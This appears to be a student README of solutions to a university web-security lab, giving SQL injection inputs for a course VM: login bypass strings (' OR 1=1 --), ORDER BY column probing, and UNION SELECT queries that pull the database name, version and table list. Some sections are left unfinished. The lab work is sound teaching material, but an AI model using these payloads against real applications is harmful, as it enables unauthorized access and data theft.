 # MP2 - WebSec
##### Instructor: Adam Bates & Ling Ren
CP1 Deadline --- Wednesday, September 27th, 6:00PM

CP2 Deadline --- Thursday, October 6th, 6:00PM

## Project Setup
1. Download VMWare
2. Download Ubuntu 18.04 LTS (CS461 Virtual Machine) at [here](https://uofi.box.com/s/aqaixm5igvqbyxys7gpswxgcsf7nyqo6)
3. Setup the VM in VMWare 

## Build Project
None

## Implementation
#### 2.2.1.1
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
' OR 1=1 -- 
```
#### 2.2.1.2
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
\' OR 1=1 -- 
```
#### 2.2.1.3

#### 2.2.1.4
##### 1. Figure out how many columns there are in the table with the following command
```
' OR 1=1 ORDER BY 1; -- 
' OR 1=1 ORDER BY 2; -- 
' OR 1=1 ORDER BY 3; -- 
' OR 1=1 ORDER BY 4; -- 
' OR 1=1 ORDER BY 5; -- 
```
The last command will give you an error. Therefore, there are 4 columns in the table.

##### 2. Use the following command to get the `Database Name`
```
' UNION SELECT NULL,NULL,NULL,DATABASE(); -- 
```

##### 3. Use the following command to get the `Database Version`
```
' UNION SELECT NULL,NULL,NULL,version(); -- 
```
Or use the following alternative command
```
' UNION SELECT NULL,NULL,NULL,@@version; -- 
```

##### 4. Use the following command to get all `Table` in the Database
```
' UNION SELECT NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='proj2_inject3'; --
```

##### 5. NEED 2.2.1.3 HASH to Finish

## Test MP2
Check `MP2 WebSec PDF`

## Developers
* Hongbo Zheng [NetID: hongboz2]
* Max Song [NetID: mcsong2]
